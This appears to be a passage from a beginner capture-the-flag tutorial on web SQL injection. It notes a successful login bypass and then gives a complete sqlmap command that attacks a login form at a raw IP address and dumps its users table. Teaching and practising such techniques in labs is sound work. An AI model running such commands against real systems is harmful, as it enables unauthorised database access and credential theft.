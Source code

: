 --

- We logged in :))))))))))

![valid example](assets/intro-to-ctfs/web/4.png)

--

- Now after confirming that the website is vulnerable we will go-on for advanced sql-injection vulnerability exploitation
  using `sqlmap`.

--

- We will use the following sqlmap command to attack the website.

```bash
sqlmap --flush-session -u "http://51.77.151.20:2789/login" --data="username=alice&password=wonderland" -T users --dump --batch --threads 10
```
